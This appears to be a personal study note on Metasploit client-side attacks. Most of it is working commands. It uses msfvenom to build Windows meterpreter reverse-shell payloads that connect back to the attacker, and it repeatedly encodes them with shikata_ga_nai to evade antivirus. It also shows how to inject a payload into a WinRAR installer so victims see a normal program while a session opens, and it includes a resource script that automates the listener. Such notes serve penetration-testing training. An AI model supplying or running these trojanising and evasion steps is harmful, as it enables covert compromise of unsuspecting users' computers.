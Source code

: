   

### ==_**Client-Side Attacks**_==

  

### ==_Payload_==

- ==**_Generating Payloads With Msfvenom_**==

> is an attack vector that involves coercing a clinet to execute a malicious payload on their system that consequently connects back to the attacker when executed

> typically utilize various social engineering techniques

> `Msfvenom` is a command line utility that can be used to generate and encode MSF payloads

> `Msfvenom` is combination of 2 utilities , msfpayload && msfencode

> Used to generate a malicious meterpreter payload that can be transferred to a client target system

- ==**_Generating Payloads With Msfvenom_**==
    
    - ==_staged payload⇒ 32 bit | non-staged payload⇒64 bit_==
    - `msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=1234 -f exe => <path where u want to save it >` ⇒ to generate a paylod and save it on exe file (it’s windows 32 bit )
    - `chmod +x <payload.exe>`
    - now uploading this file on target ip , can be done by social eng
    - to create a handler ⇒ `use multi/handler`
    - `set payload <your payload (windows/x64….)>` && `set Lhost and lport` && `run`
    - now we need to transfer the payload to the target and make him open it , then we will receive a connection on our handler .
    
      
    
      
    

  

  

- ==_**Encoding Payloads With Msfvenom**_==

> when we want to transfer our payload we need to be cognisant of AV(anti virus) detection .

> Most of end user AV solutions utilize signature based detection in order to identify malicious files .

> by using encoding on our payload we can avoid that detection

> so when the AV detect a malicious files it give it a signature and store this signature on signature database for all AV company's , so when we transfer our payload and the target execute it , the AV check the signature of the file if match any signature marked as a malicious , it will alert the target .

- ==_**Encoding Payloads With Msfvenom**_==
    
    - `msfvenom —list encoders` ⇒ to list all encoders options we can use
    - the best 2 encoder ⇒ `x86/shikata_ga_nai` && `cmd/powershell_base64`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=1234 -e x86/shikata_ga_nai -f exe ⇒ <path where u want to save it>/payload.exe` ⇒ that will generate a payload for 32 bit and encoding it using shikata_ga_nai .
    - ==**_the more u encoding the payload your chance will be increased to evading AV , the name of more encoding is iterations_**==
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe` ⇒ here we will change the iteration from 1 to 10
    
      
    

  

  

- **_==Injecting Payloads Into Windows Portable Executables==_**

> that used to avoid the detection from the AV

> the process here is we will generate a meterpreter payload and inject it on other file like WinRAR setup file

  

- **_==Injecting Payloads Into Windows Portable Executables==_**
    
    - `first we need to download the WINRAR setup file (32 bit or 64 bit)`
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe` ==`-x <path of the WINRAR setup file>`== `⇒ <path where u want to save it>/winrar.exe` ⇒ so that will generate a meterpreter payload , and encode it 10 times , then it will ==_inject this payload on the WinRAR setup file , so when we transfer the payload we will not transfer the payload.exe no we will transfer the WinRAR setup file , so we will avoid the AV detection ._==
    
    > now after u get the meterpreter session , run the migrrate model that will , change the payload to another process and that will help u alot
    
    - `run post/windows/manage/migrate` ⇒ on meterpreter session , after exploitation
    - ==we can use -k with -x ⇒ that will let the WinRAR file as is , so if the user open it it will be a simple WinRar file , but in background the Payload is executetion==
    - `-e x86/shikata_ga_nai -i 10 -f exe` ==`-k`== ==`-x <path of the WINRAR setup file>`== `⇒ <path where u want to save it>/winrar.exe` ⇒ ==-k== ==_will let the WinRar file as is , so when the user click on it it will see the simple winrar file , but in background we will get a meterpreter session and the user will not know that ._==
    
    > _that’s -k may not work in alot of file , so u can search for files accept that_
    
      
    
      
    

  

  

  

### ==_Automating_==

- ==**_Automating Metasploit With Resource Scripts_**==

> Metasploit resource scripts great feature of MSF that allow you to automate repetitive tasks and command .

> so like use a multi/handler and run it every time , resource script will make hole process automatic

> it’s like the bash script

- ==**_Automating Metasploit With Resource Scripts_**==
    
    - u can check what u have a resource script prepackaging ⇒ `ls -al /usr/share/metaspolit…/scripts/resource`
    - `gedit handler.rc` ⇒ make a resource script to automate the set up multi/handler
    - ```
        use exploit/multi/handlerset PAYLOAD windows/meterpreter/reverse_tcp<%lhost = datastore['LHOST']arch = datastore['Bit']if arch == "x64"set PAYLOAD windows/x64/meterpreter/reverse_tcpend%>set LHOST <%= lhost %>set LPORT 1234run
        ```
        
    - so this script will automate the multi/handler proceess
    - we can save it in msfconsloe using ⇒ `msfconsole -r handler.rc`
    - on msfconsole ⇒ `msfconsole -r handler.rc LHOST=<your ip> Bit=x64`
    
    > that will run the msfconsole and do every thing